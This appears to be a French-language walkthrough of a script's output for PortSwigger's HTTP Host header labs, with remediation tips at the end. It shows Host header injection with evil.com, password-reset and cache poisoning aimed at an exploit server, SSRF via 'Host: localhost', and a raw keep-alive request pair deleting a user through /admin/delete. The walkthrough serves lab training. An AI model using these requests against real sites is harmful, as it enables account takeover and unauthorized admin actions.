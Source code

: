 # MANPAGE 

Voici un **exemple exhaustif de l’exécution du script** pour les challenges HTTP Host headers de PortSwigger, illustrant chaque étape (analyse, attaque, contrôle) et le comportement attendu pour chaque type de lab :

---

### 1. Analyse du comportement du Host header

```
------------------------------------------------------
[Analyse] Test du comportement du Host header
  [!] Redirection basée sur Host détectée :
Location: https://evil.com/
```
**Explication** :  
Le script envoie une requête avec un Host header malicieux (`Host: evil.com`).  
Il détecte ici une redirection basée sur la valeur du Host, ce qui indique un comportement vulnérable ou une logique d’URL dynamique (voir[1][2]).

---

### 2. Attaque : Password reset poisoning via Host header

```
------------------------------------------------------
[Attaque] Password reset poisoning via Host header
- Envoi d'une requête de reset avec Host: exploit-<your-lab>.exploit-server.net
  [Contrôle] : Vérifiez les logs de l'exploit server pour la présence d'un lien de reset.
```
**Explication** :  
Le script simule une demande de réinitialisation de mot de passe avec un Host contrôlé par l’attaquant.  
Dans les labs PortSwigger, cela permet de vérifier si le lien envoyé à la victime pointe vers l’exploit server, ce qui confirme la vulnérabilité (voir[7]).

---

### 3. Attaque : Cache poisoning via Host/X-Forwarded-Host

```
------------------------------------------------------
[Attaque] Cache poisoning via Host/X-Forwarded-Host
  [Contrôle] : Ouvrez le tracking.js depuis un navigateur, ou attendez qu'un utilisateur visite la page. Vérifiez si une requête est faite à l'exploit server.
```
**Explication** :  
Le script envoie une requête avec un header `X-Forwarded-Host` pointant vers l’exploit server.  
Si le cache du serveur est empoisonné, un utilisateur ou un crawler peut charger un script ou une ressource contenant le domaine de l’attaquant (voir[3][7]).

---

### 4. Attaque : SSRF via Host header (host routing)

```
------------------------------------------------------
[Attaque] SSRF via Host header (host routing)
- Envoi d'une requête avec Host: localhost
  [-] Accès admin non obtenu.
```
**Explication** :  
Le script tente d’accéder à une ressource interne (`/admin`) en modifiant le Host header à `localhost`.  
Si la réponse contient des éléments d’admin, la vulnérabilité SSRF est confirmée (voir[2][6][8]).  
Ici, l’accès échoue ; dans un cas réussi, on verrait :  
```
  [+] Accès admin obtenu via SSRF Host header !
```

---

### 5. Attaque : Host validation bypass via connection state (keep-alive)

```
------------------------------------------------------
[Attaque] Host validation bypass via connection state (keep-alive)
- Cette attaque nécessite un outil bas niveau (netcat, ncat, ou Burp Repeater en mode raw).
- Exemple de requêtes à chaîner sur la même connexion :
GET / HTTP/1.1
Host: https://<your-lab>.web-security-academy.net
Cookie: session=<your-session-cookie>
Connection: keep-alive

POST /admin/delete HTTP/1.1
Host: localhost
Cookie: session=<your-session-cookie>
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=CSRF_TOKEN&username=carlos
  [Contrôle] : Vérifiez si la suppression admin fonctionne malgré la validation Host.
```
**Explication** :  
Le script fournit un exemple de requêtes à chaîner sur la même connexion TCP pour bypasser la validation du Host header.  
Ce scénario est typique des labs avancés sur le Host header authentication bypass (voir[5][7]).

---

### 6. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Ne faites confiance qu'au premier Host header reçu et validez-le strictement côté serveur.
- Ignorez ou filtrez les headers X-Forwarded-Host, X-Host, X-Forwarded-Server sauf configuration explicite.
- Ne générez jamais d'URL dynamiquement à partir du Host header sans validation.
- Pour les labs PortSwigger, vérifiez la propagation du Host dans les liens de reset, scripts, ou redirections.
- Documentation PortSwigger : https://portswigger.net/web-security/host-header
```
**Explication** :  
Le script rappelle les bonnes pratiques de sécurité, en lien avec la documentation officielle PortSwigger (voir[1]).

---

### 7. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
1. Analyse du comportement du Host header.
2. Attaques : password reset poisoning, cache poisoning, SSRF, host validation bypass.
3. Contrôle : vérification des logs exploit server, du cache, ou de l'accès admin.
4. Application des recommandations de sécurité.
------------------------------------------------------
```
